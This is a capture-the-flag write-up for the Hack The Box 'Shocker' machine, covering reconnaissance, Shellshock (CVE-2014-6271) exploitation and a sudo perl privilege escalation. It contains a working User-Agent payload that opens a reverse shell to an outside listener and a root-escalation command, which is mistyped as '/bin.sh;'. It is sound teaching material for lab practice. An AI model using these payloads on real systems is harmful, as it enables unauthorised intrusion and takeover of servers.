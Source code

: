 # HTB Shocker Writeup

<code>#shellshock</code> <code>#CVE-2014-6271</code> <code>#perl</code>

## Reconnaissance

`nmap -sC -sV -p- 10.10.10.56`

```
Nmap scan report for 10.10.10.56
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.20 seconds
```

## Enumeration

### Port 80

- Port 80 is hosting a static webpage with the following image:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 9.25.08 PM.png" width=50% height=50%>

- The following can be initially discovered by enumerating directories/files using [ffuf](https://github.com/ffuf/ffuf)

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -mc 200,301,403 -u http://10.10.10.56/FUZZ`

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 9.46.11 PM.png" width=50% height=50%>

- The `cgi-bin` directory commonly houses scripts that provides functionality to the web server. With this in mind, an updated scan can enumerate for possible files within this directory.

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 9.59.53 PM.png" width=50% height=50%>

- Reading the `user.sh` file within the `cgi-bin` directory shows the following:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 10.23.11 PM.png" width=50% height=50%>

### Port 2222

- Port 2222 is running OpenSSH version 7.2p2 Ubuntu 4ubuntu2.2
	- `OpenSSH 7.2p2 Ubuntu 4ubuntu2.2` affected by CVE-2016-6210
		- In OpenSSH 7.2p2 and before, there is a vulnerability where BLOWFISH was used for users that don't exist, SHA256/512 for real users, and checks it against user's saved hashed password. Actors can compare the hash compute speeds for users that do/don't exist to determine valid users on a system.
	- Attempted to exploit, but did not have successful results

## Exploitation

### CVE-2014-6271 Shellshock

- A vulnerability that allows actors to execute arbitrary commands by exploiting a vulnerability in Bash (up to version 4.3). This is possible due to a flaw in how Bash imports a function definition stored into an environmental variable, allowing actors to inject malicious code in these variables and execute the code.

- This valid declaration of a function in an environmental variable can be used to exploit the Shellshock vulnerability and execute code that is trailing behind the declaration.
	`env x=' () {:;};'`

- Injecting the following into the `User-Agent` header will create a shell to connect back to the host that is listening to connections on the specified port, obtaining access to `shelly` on the server.
	`() { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.25/6666 0>&1`

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 11.28.13 PM.png" width=50% height=50%>
<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 11.29.02 PM.png" width=50% height=50%>

## Privilege Escalation

- Observing the commands that the user `shelly` can run with sudo privileges shows the following:

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 11.40.33 PM.png" width=50% height=50%>

- Running perl with sudo privileges allows the current user to run commands with elevated privileges and maintains the level of access.
	- [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

`sudo perl -e 'exec "/bin.sh;"'`

<img src="https://github.com/Kr1tz3x3/HTB-Writeups/blob/main/assets/Screenshot 2023-01-13 at 11.41.04 PM.png" width=50% height=50%>
